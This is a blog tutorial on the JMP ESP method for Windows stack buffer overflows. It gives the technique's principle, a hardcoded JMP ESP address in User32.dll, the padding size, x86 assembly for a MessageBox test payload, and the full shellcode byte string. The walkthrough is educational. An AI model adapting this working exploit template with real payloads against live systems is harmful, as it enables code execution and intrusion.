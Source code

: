 ```yaml
---
title: Exploit Learning Notes 002 JMP ESP
description: ShellCode's Dynamic Positioning Method - JMP ESP Method
date: 2020-10-19 18:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


> [Click here to download this article with executable program, shellcode file](/assets/ExpStd/ExpStd02.zip)

Source: [Moeomu's blog](/posts/exploit-learning-notes-002-jmp-esp/)

## Stack space shifting

ShellCode is often dynamic in memory and is not directly filled with a fixed value  
That is, the stack space address of the buffer array in the previous article is not always a fixed value  
When the CPU executes to this address, it may trigger an invalid instruction exception and crash the program and ShellCode will not run.

### Principle

Find the address of a `JMP ESP` instruction from the loaded system DLL and use this address to flood the return address  
This allows for precise location of the shellcode and adapts to the dynamic changes in the stack space  
The stack address is small and large, the CPU execution order is from small address to large address, stack flooding is also from small address to large address  
This allows ShellCode to be dynamically addressed by flooding the previous section with meaningless data and flooding the start of ShellCode at `[ESP]`.

### ShellCode writing

#### structure

Useless data + `JMP ESP` address (this address is exactly flooded to the function return address) + command code (for testing, MessageBox popup)

> Description.
>
> - `retn` will jump to `JMP ESP` afterwards, then ESP + 4
> - `JMP ESP` will jump to the command code exactly after

#### necessary data

- `JMP ESP` address: located in User32.dll `0x77D29353` (no need to be the original command, just search the binary `0xFFE4`)
- Garbage data size: 52 Byte = Buffer(44 Byte) + authenticated(4 Byte) + EBP(4 Byte)

#### Final Code

> Here is the command code to be executed

```x86asm
33DB                      xor ebx,ebx
53                        push ebx
68 6D756F6F               push 0x6F6F756D
68 4D6F656F               push 0x6F656F4D
8BC4                      mov eax,esp
53                        push ebx
50                        push eax
50                        push eax
53                        push ebx
B8 EA07D577               mov eax,user32.MessageBoxA
FFD0                      call eax
B8 FACA817C               mov eax,kernel32.ExitProcess
FFD0                      call eax
```

> Final ShellCode

```c
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 53 93 D2 77  33 DB 53 68 6D 75 6F 6F
68 4D 6F 65 6F 8B C4 53  50 50 53 B8 EA 07 D5 77
FF D0 B8 FA CA 81 7C FF  D0
```
